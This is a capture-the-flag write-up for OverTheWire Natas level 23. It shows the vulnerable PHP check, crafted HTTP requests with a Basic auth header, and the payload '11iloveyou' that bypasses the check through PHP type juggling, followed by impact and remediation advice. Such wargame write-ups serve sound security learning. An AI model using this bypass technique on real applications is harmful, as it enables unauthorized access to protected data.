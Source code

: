# [Over The Wire (natas)] – [[Platform](http://natas23.natas.labs.overthewire.org/)] – [09/29/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [23]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser
- Burp Suite (proxy + repeater)

## Login
1. Logged in with credentials:
   - **Username**: `natas23
   - **Password**: `XXXXXX`
  
2. Screenshot:
   ![alt text](image-32.png)
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas23.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content

```php
      if(array_key_exists("passwd",$_REQUEST)){
         if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
               echo "<br>The credentials for the next level are:<br>";
               echo "<pre>Username: natas24 Password: <censored></pre>";
         }
         else{
               echo "<br>Wrong!<br>";
         }
      }
      // morla / 10111
```
   - This function checks if the key "passwd" contains the text "iloveyou" and if the value is longer than 10 characters. If so, the flag will be revealed. If not will display "Wrong!".


---
  

     
4. Steps taken (Improper Type Handling):

   1. First of all I wanted to check what happened with the form when it submits a password. Turns out the form is set to "GET" request and there for doesn't submit a value. 


   ```html

         <form name="input" method="get">
            <input type="text" name="passwd" size=20>
            <input type="submit" value="Login">
         </form>
   ```

   ```
      GET /?passwd=test HTTP/1.1
      Host: natas23.natas.labs.overthewire.org
      Authorization: Basic bmF0YXMyMzpkSVVRY0kzdVN1czFKRU9TU1dSQUVYQkc4S2JSOHRScw==
      Accept-Language: en-US,en;q=0.9
      Upgrade-Insecure-Requests: 1
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
      Referer: http://natas23.natas.labs.overthewire.org/?passwd=test
      Accept-Encoding: gzip, deflate, br
      Connection: keep-alive
   ```

   2. Changing the method of the request and headers, we kept the protocol, Host, Authorization. We added Content-Type and Content-Length as well as the data with the key `passwd`. 

   ```
      POST / HTTP/1.1
      Host: natas23.natas.labs.overthewire.org
      Authorization: Basic bmF0YXMyMzpkSVVRY0kzdVN1czFKRU9TU1dSQUVYQkc4S2JSOHRScw==
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 17

      passwd=iloveyouiloveyouiloveyou
   ```

   3. This returned as `Wrong!`, however did submit. This proved that information was received just that when converted to digit is not > 10. 

   4. If the payload was changed to `11iloveyou`, this produced the flag.
   
   ```html
      The credentials for the next level are:<br><pre>Username: natas24 Password: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</pre>
   ```

   

---

🔑 **Why this works**: 
   - PHP will coerce types when you compare a string to a number ($_REQUEST["passwd"] > 10).

   - If the string starts with digits PHP parses those as the numeric value (e.g. "11abc" → 11).

   - If the string does not start with digits, it becomes 0 (e.g. "abc11" → 0).

   - The code uses strstr() only to check for the substring "iloveyou" (truthy if present) but uses a numeric comparison on the raw input instead of checking length or extracting digits.

   - The developer likely intended to check length > 10, but comparing the raw string to 10 causes the server to accept inputs that begin with a number > 10 (e.g. "11iloveyou"), revealing the flag.

   - In short: incorrect assumption about what > 10 does on a string — leads to logic that can be bypassed by crafting an input whose numeric coercion satisfies the condition.

---

💥 **Impact**

   - **Unauthorized disclosure of sensitive data** (next-level credentials) when an attacker crafts input that satisfies the coerced numeric check.

   - **Bypass of intended access controls** or validation logic that relied on an incorrect type/format assumption.

   - **Low-effort exploitation**: attacker only needs to prepend a number to a payload (or otherwise craft string that coerces > 10) to bypass the check.

   - **Could be used as part of a larger attack chain** (automated scanning, lateral movement in wargame/CTF scenarios) because it’s trivial to test and exploit.

---
  
🛠️ **Remediation**

   **Explicitly check what you mean**:

   - If you mean length, use strlen($passwd) > 10.

   - If you mean numeric value, extract and validate digits explicitly, e.g. if (preg_match('/^\d+/', $passwd, $m) && intval($m[0]) > 10) { ... }.

   **Avoid implicit type juggling**:

   - input types before comparing.

   **Validate and sanitize input**:

   - Use filter_input() / filter_var() or preg_match() to enforce expected format (e.g., only letters, only digits, length ranges).

   **Fail-safe defaults**:

   - If validation fails, deny access and log the attempt. Don’t rely on language coercion semantics for security checks.

   **Code review & tests**:

   - Add unit tests for boundary cases (strings starting with digits, strings with no digits, empty input).

   - Include a static code check or linter rule to flag comparisons between mixed types.

   **Least privilege & output handling**:

   - Don’t reveal sensitive credentials directly in application responses; require stronger authentication/authorization before disclosing secrets.
